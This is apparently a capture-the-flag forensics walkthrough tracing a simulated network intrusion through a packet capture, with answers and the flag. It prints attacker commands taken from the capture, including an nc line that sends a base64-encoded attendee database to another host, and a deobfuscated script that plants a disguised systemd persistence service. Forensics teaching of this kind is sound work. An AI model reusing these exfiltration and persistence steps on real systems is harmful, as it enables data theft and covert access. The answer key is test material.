









# DawnBreach — Forensics Challenge Walkthrough

---

## Description

> The night before a community iftar gathering, someone moved quietly through the network while everyone slept. By the time the sun rose, the attendee list was leaked. A packet capture was running. That is all you have. Trace every step. Leave nothing behind.

## Overview
This challenge provides a 
- `DawnBreach.pcap` - a packet capture file
- A netcat server that guides the investigation through 10 questions

The goal is to investigate a network intrusion against a community iftar event server. A threat actor performed a targeted attack — starting with port scanning, exploiting an anonymous SMB share to steal SSH credentials, establishing a bash reverse shell, dropping an obfuscated script that exfiltrated the attendee registration database, and planting a systemd persistence backdoor. Players must trace every step of the attack chain through the packet capture to recover the flag.

---

## Walkthrough

Open `DawnBreach.pcap` in Wireshark. Go to **Statistics → Conversations → TCP tab** for a bird's eye view. You will see exactly 4 TCP conversations — each one representing a phase of the attack.



| Port | Description |
|------|-------------|
| 445  | SMB session |
| 22   | SSH session |
| 4444 | Reverse shell |
| 8585 | Exfiltration |

---

## Q1 — Which two ports responded as open on the victim machine? (format: low,high)

Apply this filter in Wireshark:
```
tcp.flags.syn == 1 && tcp.flags.ack == 1
```


This shows only SYN-ACK responses — ports that accepted connections. You will see four results but only two appear early in the capture at the very beginning — ports **22** and **445**. The other two (4444 and 8585) appear much later and are initiated from the victim back to the attacker, meaning they are post-exploitation activity, not scan results.4

**Answer:** `22,445`

---

## Q2 — What is the name of the SMB share the attacker accessed?

Apply this filter:
```
smb2
```



Look for a **Tree Connect Request** packet in the Info column:
```
Tree Connect Request Tree: \\192.168.1.200\public
```

The share name is the last part of that path — `public`.

**Answer:** `public`

---

## Q3 — What is the name of the file the attacker downloaded from the share?

Still with the `smb2` filter, look for a **Create Request File:** packet in the Info column:


```
Create Request File: server_config.txt
```

**Answer:** `server_config.txt`

---

## Q4 — What SSH credentials were found inside that file? (format: user:password)

Right click any SMB packet → **Follow → TCP Stream**. Scroll through the stream until you see the contents of `server_config.txt` in plaintext:



```
# Iftar Event Server Configuration
# WARNING: Do not distribute

[database]
host=localhost
port=5432
name=iftar_registrations

[ssh]
user=admin
password=ramadan2026
```

**Answer:** `admin:ramadan2026`

---

## Q5 — What port did the reverse shell connect back to on the attacker's machine?

Go to Statistics → Conversations → TCP tab. Look for a connection on a non-standard port between 192.168.1.105 and 192.168.1.200 with significant traffic volume and duration. Port 4444 stands out with 82 packets and 43 seconds duration — clearly an interactive session. Port 8585 by contrast has only 8 packets and lasts 0.0007 seconds — a quick one-shot data transfer.



**Answer:** `4444`

---

## Q6 — What was the first command the attacker ran after getting the reverse shell?

Apply this filter:
```
tcp.port == 4444
```

Right click any packet → **Follow → TCP Stream**. The stream shows the interactive shell session. The very first command typed after the shell prompt appears is `id` with the response:
```
uid=1002(admin) gid=1002(admin) groups=1002(admin)
```



**Answer:** `id`

---

## Q7 — The attacker dropped an obfuscated script on the victim. What is its full path?

Still following the port 4444 TCP stream, scroll further down. You will see:
```
cat /tmp/update_obfuscated.sh | tee /tmp/update.sh
```



The script is being written to `/tmp/update.sh` on the victim machine.

**Answer:** `/tmp/update.sh`

---

## Q8 — What file does the attacker exfiltrate from the victim machine?

Still in the port 4444 stream, scroll to the very bottom. The last command before the session ends is:
```
base64 /opt/iftar/registrations.csv | nc -q 1 192.168.1.105 8585
```



The file being exfiltrated is `registrations.csv`.

**Answer:** `registrations.csv`

---

## Q9 — What is the full path of the systemd service file the script creates?

This requires deobfuscating the script. From the port 4444 stream, copy the obfuscated script content — everything from `z=""` down to the `eval` line — and save it to a file:

```bash
nano update.sh
```

Paste the content. Remove any stray `> ` lines then change `eval` to `echo` on the last line. Save and run:

```bash
bash update.sh
```

The plaintext payload prints out revealing the persistence path:

```bash
export _data=$(base64 /opt/iftar/registrations.csv)
echo $_data | nc -q 1 192.168.1.105 8585
mkdir -p /home/admin/.config/systemd/user/
cat > /home/admin/.config/systemd/user/sysupdate.service << 'EOF'
[Unit]
Description=System Update Helper
[Service]
ExecStart=/bin/bash /home/admin/.config/systemd/user/.syshelper.sh
Restart=always
[Install]
WantedBy=default.target
EOF
systemctl --user enable sysupdate.service
systemctl --user start sysupdate.service
```

The persistence service file path is `/home/admin/.config/systemd/user/sysupdate.service`.

**Answer:** `/home/admin/.config/systemd/user/sysupdate.service`

---

## Q10 — How many attendees are in the leaked database?

Apply this filter:
```
tcp.port == 8585
```

Right click → **Follow → TCP Stream**. You will see a large block of base64-encoded data. Copy it and decode in your terminal:



```bash
echo "<base64 data>" | base64 -d
```

You will get the full CSV with a header row followed by 30 attendee records:
```
id,full_name,email,phone,seats,confirmed
1,Omar Al-Farsi,...
2,Fatima Nour,...
...
30,Marwa Fadel,...
```

Count the data rows — there are **30 attendees**.

**Answer:** `30`

---

## Flag

After submitting all 10 correct answers to the netcat server:

```
Spark{smb_2_ssh_2_r3v3rs3_sh3ll}
```
